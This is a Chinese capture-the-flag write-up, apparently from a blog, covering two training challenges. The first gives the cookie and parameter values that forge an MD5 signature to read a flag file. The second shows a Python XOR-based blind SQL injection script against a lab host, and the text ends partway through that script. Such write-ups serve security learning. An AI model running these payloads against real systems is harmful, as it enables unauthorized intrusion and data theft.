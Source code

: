 `/`就是读代码然后打出来
`/geneSign`作用
* `geneSign()`函数:获取输入的`param`参数，执行函数`getSign(scan,param)`
* `getSign()`函数:将传来的`scan`和`param`md5加密传回

`/De1ta`作用
*  从`cookie`读取`action`和`sign`，从`GET`请求读取`param`，读取请求`ip`
* `waf`函数过滤以`gopher`或`file`开头的`param`
* 传`(action,param,sign,ip)`回Task类
* 将`task.Exec()`执行结果输出
* `Task`类初始化，对`ip`md5加密,没有路径关键字在其中就建一个`md5加密后的ip`为名的目录
* `checkSign()`函数，`getSign()`处理后的`md5`值和`cookie`传入的`sign`值进行弱比较
* 弱比较成功之后，如果`cookie`传的`action`有`scan`关键字，就写入`scan(param)`，如果有`read`，就可以读对应内容

总结一下就是:
`param`放要读的文件`flag.txt`\
`cookie`里的`action`+`GET`里的`param`加密后要等于`cookie`里的`sign`
`geneSign`告诉我们`param`+关键字`action`的MD5加密是多少
那我们在`/geneSign`页面传`param=flag.txtread`就能算出来`secret_key+flag.txt+readscan`的值是多少，可以绕过弱比较

![在这里插入图片描述](https://img-blog.csdnimg.cn/d6a0f2c22a6747da83c9d9b5a388a73e.png)
最终，回到`/De1ta`页面，`GET`传参`param=flag.txt`，`cookie`传参`action=readscan;sign=373113c5d0074f5f2ef7721e3d02fff4`可以得到`flag`,密钥不同环境不同

![在这里插入图片描述](https://img-blog.csdnimg.cn/ce7d71ed847245649e4dda8d4c232fd9.png)

================================================

# [极客大挑战 2019]FinalSQL
>[参考博客](https://blog.csdn.net/weixin_52387684/article/details/121200257)

![在这里插入图片描述](https://img-blog.csdnimg.cn/36acc6200f384967aefac7ac5a095d37.png)
映入眼帘五个按钮，逐个按下来让按第六个，选中附近检查源码

![在这里插入图片描述](https://img-blog.csdnimg.cn/798f9da9b9544ecfbaede44eeb1f1ed3.png)
删注释框，改类型为`submit`，加`value="6"`

![在这里插入图片描述](https://img-blog.csdnimg.cn/539627f8fec74f2798a1b5a7bc8356fc.png)
URL里有`id`参数

用异或盲注，脚本来自参考博客

```python
import requests
import time

url="http://8bf0bc1e-3d13-4d37-9342-dc640f9d2b08.node4.buuoj.cn:81/search.php"

# 0^(ord(substr(database(),1,1))>32)
def getDatabase():
    database_name=""
    for x in range(1,1000):
        low = 32
        hight = 127
        mid=(low+hight)//2
        while low < hight:
            params={
                "id":"0^(ord(substr((select(database())),"+str(x)+",1))>"+str(mid)+")"
            }
            r=requests.get(url=url,params=params)
            if "others~~~" in r.text:
                low = mid+1
            else:
                hight = mid
```
